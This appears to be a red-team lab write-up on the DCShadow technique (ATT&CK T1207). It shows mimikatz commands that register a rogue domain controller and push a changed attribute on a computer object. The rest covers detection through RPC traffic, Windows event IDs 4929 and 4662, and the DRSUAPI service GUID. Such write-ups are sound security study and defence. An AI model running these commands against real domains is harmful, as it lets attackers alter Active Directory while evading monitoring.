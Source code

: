 ```yaml
---
description: Defense Evasion
---
```


# T1207: DCShadow

DCShadow allows an attacker with enough privileges to create a rogue Domain Controller and push changes to the DC Active Directory objects.

## Execution

For this lab, two shells are required, one running with `SYSTEM` privileges and another one is a domain member that is in `Domain admins` group:

![](../.gitbook/assets/dcshadow-privileges.png)

In this lab, I will be trying to update the AD object of a computer `pc-w10$`. A quick way to see some of its associated properties can be achieved with the following powershell. Note the `badpwcount` property which we will try to change with DCShadow:

```csharp
PS c:\> ([adsisearcher]"(&(objectCategory=Computer)(name=pc-w10))").Findall().Properties
```

![](../.gitbook/assets/dcshadow-computer-properties.png)

Let's change the value to 9999:

{% code-tabs %}
{% code-tabs-item title="mimikatz@NT/SYSTEM console" %}
```csharp
mimikatz # lsadump::dcshadow /object:pc-w10$ /attribute:badpwdcount /value=9999
```
{% endcode-tabs-item %}
{% endcode-tabs %}

and push the changes to the primary Domain Controller `DC-MANTVYDAS`:

{% code-tabs %}
{% code-tabs-item title="mimikatz@Domain Admin console" %}
```csharp
lsadump::dcshadow /push
```
{% endcode-tabs-item %}
{% endcode-tabs %}

Below are the screenshots of the above commands and their outputs as well as the result, indicating the `badpwcount`value getting changed to 9999:

![](../.gitbook/assets/dcshadow-computer-properties-changed.png)

## Observations

As suggested by Vincent Le Toux who co-presented the [DCShadow](https://www.youtube.com/watch?v=KILnU4FhQbc), in order to detect the rogue activity, you could monitor the network traffic and suspect any non-DC hosts \(our case it is the PC-W10$ with `10.0.0.7`\) issuing RCP requests to DCs \(our case DC-MANTVYDAS with `10.0.0.6`\) as seen below:

![](../.gitbook/assets/dcshadow-traffic.png)

Same for the logs, if you see a non-DC host causing the DC to log a `4929` event \(Detailed Directory Service Replication\), you may want to investigate what else was happening on that non-DC system at that time:

![](../.gitbook/assets/dcshadow-logs.png)

Current implementation of DCShadow in mimikatz creates a new DC and deletes its associated objects when the push is complete in a short time span and this pattern could potentially be used to trigger an alert, since creation of a new DC, related object modifications and their deletion all happening in 1-2 seconds timeframe sound anomalous. Events `4662` may be helpful for identifying this:

![](../.gitbook/assets/dcshadow-createobject.png)

![](../.gitbook/assets/dcshadow-delete1.png)

![](../.gitbook/assets/dcshadow-delete2.png)

Per [Luc Delsalle](https://blog.alsid.eu/@lucd?source=post_header_lockup)'s post on DCShadow explanation, one other suggestion for detecting rogue DCs is the idea that the computers that expose an RPC service with a GUID of `E3514235–4B06–11D1-AB04–00C04FC2DCD2`, but do not belong to a `Domain Controllers` Organizational Unit, should be investigated. 

We see that our suspicious computer exposes the service:

![](../.gitbook/assets/dcshadow-services.png)

..but does not belong to a `Domain Controllers` OU:

```csharp
([adsisearcher]"(&(objectCategory=computer)(name=pc-w10))").Findall().Properties.distinguishedname
```

![Outputs for computer NOT belonging to DC OU and one belonging, respecitvely](../.gitbook/assets/dcshadow-ou-dc.png)

{% embed data="{\"url\":\"https://attack.mitre.org/wiki/Technique/T1207\",\"type\":\"link\",\"title\":\"DCShadow - ATT&CK for Enterprise\"}" %}

{% embed data="{\"url\":\"https://www.dcshadow.com/\",\"type\":\"link\",\"title\":\"lsadump::dcshadow /push\",\"description\":\"They told me I could be anything I wanted ... So I became a domain controller\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.dcshadow.com/mimikatz.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://user-images.githubusercontent.com/2307945/35466403-d9a4f3f2-0303-11e8-9d94-a2e4b2df7a2c.jpg\",\"width\":500,\"height\":686,\"aspectRatio\":1.372}}" %}

{% embed data="{\"url\":\"https://www.youtube.com/watch?v=KILnU4FhQbc\",\"type\":\"video\",\"title\":\"BlueHat IL 2018 - Vincent Le Toux & Benjamin Delpy - What Can Make Your Million Dollar SIEM Go Blind\",\"description\":\"Active Directory: What Can Make Your Million Dollar SIEM Go Blind?\\n\\nActive Directory is a key element for security and is a primary target in most of the common attacks today. There are also many tools used to ensure its protection. In large companies where there have been millions of dollars of investment in security, it appears that the logical choice to provide security monitoring of Active Directory is by using the company SIEM tool. Even if the chances of detecting a golden ticket are low, the logs processed by the SIEM can help track any object changes and can raise an alert in case of a suspicious modification to a privileged account.\\nWith Benjamin Delpy the mimikatz author in a guest appearance, this talk focuses on two topics: \\nHow an attacker can have more insight into your domains than you and how the attacker can also exploit distant domains, while being undetected by your SIEM\\nHow the new mimikatz attack \\\"DCShadow\\\", by transforming a compromised workstation into a DC, can push changes that are unseen by your SIEM.\\n\\nWhile post incident response handlers can use replication metadata to build the attack history, the DCShadow attack will demonstrate that this replication metadata can no longer be trusted and how the technical specification of the AD \(MS-ADTS\) can be bypassed in most cases. An example is, instead of gathering the krbtgt hash via DCSync, you can push your own secret. \\n\\nSpeaker Bio:\\nVincent LE TOUX, 37 years old, French Security Manager in a large company SOC / CSIRT / SECOPS manager / AD expert CEO of My Smart Logon - smart card logon \(www.mysmartlogon.com\) Author of Ping Castle - an AD security tool \(www.pingcastle.com\) Contributions in Mimikatz Many open source contributions \(OpenPGP, OpenSC, GIDS applet, ...\) Presenter in many conferences including FIRST \(Puerto Rico, 2017\) & in France.\\n\\nGuest Speaker:\\nBenjamin Delpy, is a Security Researcher known as \`gentilkiwi\`. A Security enthusiast, he publishes tools and articles that speak about products’ weaknesses and prove some of his ideas. Mimikatz was the first software he developed that reached an international audience. It is now recognized as a Windows security audit tool. He previously spoke at PHDays, ASFWS, StHack, BlackHat, BlueHat US and many more.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://www.youtube.com/yts/img/favicon\_144-vfliLAfaB.png\",\"width\":144,\"height\":144,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://i.ytimg.com/vi/KILnU4FhQbc/maxresdefault.jpg\",\"width\":1280,\"height\":720,\"aspectRatio\":0.5625},\"embed\":{\"type\":\"player\",\"url\":\"https://www.youtube.com/embed/KILnU4FhQbc?rel=0&showinfo=0\",\"html\":\"<div style=\\\"left: 0; width: 100%; height: 0; position: relative; padding-bottom: 56.2493%;\\\"><iframe src=\\\"https://www.youtube.com/embed/KILnU4FhQbc?rel=0&amp;showinfo=0\\\" style=\\\"border: 0; top: 0; left: 0; width: 100%; height: 100%; position: absolute;\\\" allowfullscreen scrolling=\\\"no\\\"></iframe></div>\",\"aspectRatio\":1.7778}}" %}

{% embed data="{\"url\":\"http://www.labofapenetrationtester.com/2018/04/dcshadow.html\",\"type\":\"link\",\"title\":\"DCShadow - Minimal permissions, Active Directory Deception, Shadowception and more\",\"description\":\"Home of Nikhil SamratAshok Mittal. Posts about Red Teaming, Offensive PowerShell, Active Directory and Pen Testing.\",\"icon\":{\"type\":\"icon\",\"url\":\"http://www.labofapenetrationtester.com/favicon.ico\",\"aspectRatio\":0},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://1.bp.blogspot.com/-RHibpt8TT28/WsHCN-6Nb8I/AAAAAAAAEjA/fif\_yx9\_rNU2bkHa7e\_T5EzG3IaRMa5LgCLcBGAs/w1200-h630-p-k-no-nu/mimikatz\_SYSTEM.png\",\"width\":1141,\"height\":599,\"aspectRatio\":0.5249780893952674}}" %}

{% embed data="{\"url\":\"https://blog.alsid.eu/dcshadow-explained-4510f52fc19d\",\"type\":\"link\",\"title\":\"DCShadow explained\",\"description\":\"A technical deep dive into the latest AD attack technique.\",\"icon\":{\"type\":\"icon\",\"url\":\"https://cdn-images-1.medium.com/fit/c/304/304/1\*HjFm-OXMD5ceyjF5mfOBhw.png\",\"width\":152,\"height\":152,\"aspectRatio\":1},\"thumbnail\":{\"type\":\"thumbnail\",\"url\":\"https://cdn-images-1.medium.com/max/2000/1\*wVu4pcIZMOReI8EtgQNsTA.jpeg\",\"width\":1500,\"height\":500,\"aspectRatio\":0.3333333333333333}}" %}

